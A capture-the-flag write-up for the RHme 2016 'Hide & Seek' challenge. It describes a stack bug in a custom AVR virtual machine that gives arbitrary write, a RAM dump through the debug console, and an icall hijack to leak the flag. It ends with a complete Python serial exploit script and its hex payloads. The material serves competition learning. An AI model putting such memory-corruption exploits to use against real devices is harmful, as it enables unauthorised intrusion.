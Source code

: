 # rhme-2016 write-up Hide & Seek

<a name="hideandseek"></a>
## Hide & Seek (Other - 400 pts)
This challenge is based on FridgeJIT.<br>
At startup, the loader is available to execute a custom VM.<br>
If there is no errors in the VM, the program will finish..and no flag :p<br>
First, we tried the previous VM (FridgeJIT), everything was working, great !<br>
Then we tried something different like "ee" and got an Oops message.<br>
After, the fridgeJIT console was displayed and we got an access to different
commands like execute, debug, load...<br>
The next step was to find a vulnerability in the VM in order to dump the RAM.<br>
We tried a lot of opcode combination in order to manipulate the stack (push,
pop, call, ret).<br>
A weird behavior appeared after the execution of call r0 with SP=0, we got a 
binary dump through the console by loading "aa" 47 times.<br>
After a lot of testing, we found that executing the following command allows you
to move the Loader pointer:
```
  SP = 0     ptr = x     call
"04600000"+"00"*(x - 6)+"1200"
note: x < 0x2bc (buffer size)
```
With the debug console, every opcode and parameters are translated though a
printf("%s",..) stuff and we can write everywhere with the previous exploit..<br>
so, if the NOP string address is modified (or PUSH, POP whatever), we can dump
all the RAM through the debug console.<br>
In order to dump the RAM, we set the loader pointer to 0x1e4, this is the 
address of the NOP string pointer.<br>
After the RAM dump analysis, the FLAG string appears in 2 places 0x269 and 0x700.

!!But!!<br>
Behind the "FLAG:" string @ 0x700, there are nothing (so sad..)<br>
To sum up, we can read RAM, write anywhere..the last thing we can do is to get code execution.<br>  
Then we fuzz everything in the range 0x100-0x1e4 to get something,
and after a lot of try, we got nothing..(so sad x2).<br>
The way to have an execution with this AVR is to watch every icall.<br>
With r2: 
```
:> /c icall
0x00000466   # 2: icall (can't exploit)
0x00001d5e   # 2: icall (\o/)
0x000027d6   # 2: icall (don't care)
```
The icall takes values in RAM with r31:r30 = \*0x16c:*0x16b according to the
value @ 0x16a.<br>
Then, we fuzz the value @ 0x16a in order to get something call!<br>
Result: the value 0x1e seems to be a good choice, because we got crash :)<br>
Then we tried many (random) addresses and we found a good setting with 0x1000
as parameter (payload = "1e0010" @ 0x16a).<br>
Then we rewrite the RAM until 0x1e4 to dump the string @ 0x700 to recover the
flag \o/.

```python
from rhme_serial import *

s = rhme_serial()
s.xfer("ee\n")
s.xfer("\n")
s.xfer("l\n")
s.xfer("04600000"+"00"*(0x16a-6)+"1200\n")
s.xfer("e\n")
s.xfer("\n")
s.xfer("l\n")
s.xfer("1e0010\n")
s.xfer("e\n")
s.xfer("\n")
s.xfer("l\n")
s.xfer("00000c02fb0c03f40704280805720806540d07a10d08c4080901090a44090b810900be090dfb090e2b0a0f6a0a10a90a11020b12ee0d135107141807153607165b0b17a40b18c10019de0b1afb0b1b180c1c500c1d770c1e950c00414243c4c5464748494a4b4c4d52139455569798595a5b5c1f4e4f50511d1e00000007\n")
print s.xfer("d\n")
s.close()
```

